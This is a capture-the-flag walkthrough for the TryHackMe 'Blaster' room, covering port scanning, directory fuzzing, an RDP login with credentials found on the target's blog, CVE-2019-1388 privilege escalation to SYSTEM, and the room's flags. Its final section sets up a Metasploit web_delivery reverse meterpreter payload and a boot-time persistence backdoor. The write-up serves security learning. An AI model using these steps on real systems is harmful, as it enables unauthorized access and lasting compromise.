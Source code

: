 # TryHackMe [Blaster](https://tryhackme.com/room/blaster)
### References
* DarkSec. (2021). TryHackMe Blaster Official Walkthrough [YouTube Video]. In YouTube. https://youtu.be/PoRPbbQnhEQ
## Activate Forward Scanners and Launch Proton Torpedoes
### How many ports are open on our target system?
```bash
$ nmap -sCV -Pn -vv <MACHINE_IP>
PORT     STATE SERVICE        REASON  VERSION
80/tcp   open  http           syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server? syn-ack
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2021-07-05T06:05:14+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Issuer: commonName=RetroWeb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-05-21T19:00:50
| Not valid after:  2021-11-20T19:00:50
| MD5:   bd8b f44d 69f6 0851 2c2b 7879 1f08 0ef2
| SHA-1: 7cc7 c6d6 e117 0e45 be2c cc90 d90d cd1b 39d3 ad72
| -----BEGIN CERTIFICATE-----
| MIIC1DCCAbygAwIBAgIQYE9RQ301arpDJLcMX5ssUjANBgkqhkiG9w0BAQsFADAT
| MREwDwYDVQQDEwhSZXRyb1dlYjAeFw0yMTA1MjExOTAwNTBaFw0yMTExMjAxOTAw
| NTBaMBMxETAPBgNVBAMTCFJldHJvV2ViMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEAoF7b88qJFNLmqp1ZsGImo8F7dy9B20mb2l3xiJ1qy07yXkcWDGpD
| GP16ZIfp/CFKqqVjD6JL0SXDIPbZUgT4zKgFMBEd8PY4OEPMiBisDHWvNpaq1j6i
| As/TfzhdEMs8Xkj3iaD4WLmiCCKnFYwzxFOQhe+sNeYxEbxhRkc8QHgCaglVRfiB
| G5bYFSju3UmzWSlo84AJvisuqiUeYnKbNdra9Dm/voZx0UA8QZcQh1lf3CDI/xXI
| qSavE6EU0CV3RtWz4lGeIx827rbp9oHQl2AUj1uFXoWuFJcWTHcI6iymAeTiwy6R
| jcAt1T8oxrkFonVG7Fg6kt5IDVFqjxd2wwIDAQABoyQwIjATBgNVHSUEDDAKBggr
| BgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBAF9vEUlM4lla
| LzBZWVvYBV3nMgyzoD9m6Tm57ocnAkQKansW+1wr7PLPRCLw6t73H2L0ExnZ1WdN
| t6r0wehNqLh0zlecDOsYQvY4Wvp/VnHHzi4BK9HQTN8TtbEPi6fFp5q92D0ZZwih
| Q74QZ5lZ10GJEajSM0yTgBumJCvbpgMh8bXr6YxSJ7Y0khiHSRMrJHKX0NmPRVsV
| dK59kAogoReXNF+MvciYMhnO+GA7lR9k897CCzccwy7zLqbZscKGnkX0iMDNaGPJ
| o4r9WJWNHHoFbjwb0LPeZqikrbk6hmr7NOWOKp5si+6Eu3n27COpmtoxUTCUcfFw
| mh/rxtNNuQc=
|_-----END CERTIFICATE-----
|_ssl-date: 2021-07-05T06:05:21+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
**Answer**: `2`
### Looks like there's a web server running, what is the title of the page we discover when browsing to it?
**Answer**: `IIS Windows Server`
### Interesting, let's see if there's anything else on this web server by fuzzing it. What hidden directory do we discover?
```bash
$ gobuster dir -u http://<MACHINE_IP> -w $(pwd)/directory-list-2.3-medium.txt -t 40
/retro                (Status: 301) [Size: 150] [--> http://<MACHINE_IP>/retro/]
```
**Answer**: `/retro`
### Navigate to our discovered hidden directory, what potential username do we discover?
* From `http://<MACHINE_IP>/retro/`:
![`/retro`](retro.png)

**Answer**: `Wade`
### Crawling through the posts, it seems like our user has had some difficulties logging in recently. What possible password do we discover?
* Wade's comment on `http://<MACHINE_IP>/retro/index.php/2019/12/09/ready-player-one/`:
![Wade's comment](comment.jpg)

**Answer**: `parzival`
### Log into the machine via Microsoft Remote Desktop (MSRDP) and read `user.txt`. What are it's contents?
1. Use [Remmina](https://remmina.org/) to connect to `<MACHINE_IP>` username of `wade` and password of `parzival`.
2. Open the `user.txt` with Notepad which is loacted on Wade's desktop:
![`user.txt`](user.txt.jpg)

**User Flag**: `THM{HACK_PLAYER_ONE}`
## Breaching the Control Room
### Look around the machine and see if you can find the CVE which was researched on this server. What CVE was it?
* [DarkSec's video](https://youtu.be/PoRPbbQnhEQ) shows that the server's owner searched about `CVE-2019-1388`, however I could not find that in Internet Explorer's history logs.

**Answer**: `CVE-2019-1388`
### Looks like an executable file is necessary for exploitation of this vulnerability and the user didn't really clean up very well after testing it. What is the name of this executable?

### Now that we've spawned a terminal, let's go ahead and run the command `whoami`. What is the output of running this?
1. Open `hhupd.exe` from the Desktop as Administrator and Show more information about the publisher's certificate:
![Administrator prompt](prompt.jpg)
2. Open the link of the certificate with Internet Explorer:
![Internet Explorer](ie.jpg)
3. Press <kbd>Control</kbd> + <kbd>S</kbd>:
![file save prompt](save_prompt.jpg)
4. Navigate to `C:\Windows\System32`, type `C:\Windows\System32\*.*` in the file name field and open `cmd.exe`:
```
C:\Windows\System32>whoami
nt authority\system
```

**Answer**: `nt authority\system`
### Now that we've confirmed that we have an elevated prompt, read the contents of `root.txt` on the Administrator's desktop. What are the contents?
```
C:\Windows\System32>type ..\..\Users\Administrator\Desktop\root.txt
THM{COIN_OPERATED_EXPLOITATION}
```
**Root Flag**: `THM{COIN_OPERATED_EXPLOITATION}`
## Adoption into the Collective
### First, let's set the target to PSH (PowerShell). Which target number is PSH?
```bash
$ msfconsole -q
msf6 > use exploit/multi/script/web_delivery
msf6 exploit(multi/script/web_delivery) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Python
   1   PHP
   2   PSH
   3   Regsvr32
   4   pubprn
   5   SyncAppvPublishingServer
   6   PSH (Binary)
   7   Linux
   8   Mac OS X
msf6 exploit(multi/script/web_delivery) > set target 2
target => 2
msf6 exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf6 exploit(multi/script/web_delivery) > set LHOST tun0
msf6 exploit(multi/script/web_delivery) > run -j
```
**Answer**: `2`
### What command can we run in our meterpreter console to setup persistence which automatically starts when the system boots?
* According to [Offensive Security Metasploit Documentation](https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/):
```bash
meterpreter > run persistence -h

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
Meterpreter Script for creating a persistent backdoor on a target host.

OPTIONS:

    -A        Automatically start a matching exploit/multi/handler to connect to the agent
    -L   Location in target host to write payload to, if none %TEMP% will be used.
    -P   Payload to use, default is windows/meterpreter/reverse_tcp.
    -S        Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T   Alternate executable template to use
    -U        Automatically start the agent when the User logs on
    -X        Automatically start the agent when the system boots
    -h        This help menu
    -i   The interval in seconds between each connection attempt
    -p   The port on which the system running Metasploit is listening
    -r   The IP of the system running Metasploit listening for the connect back
```

**Answer**: `run persistence -X`

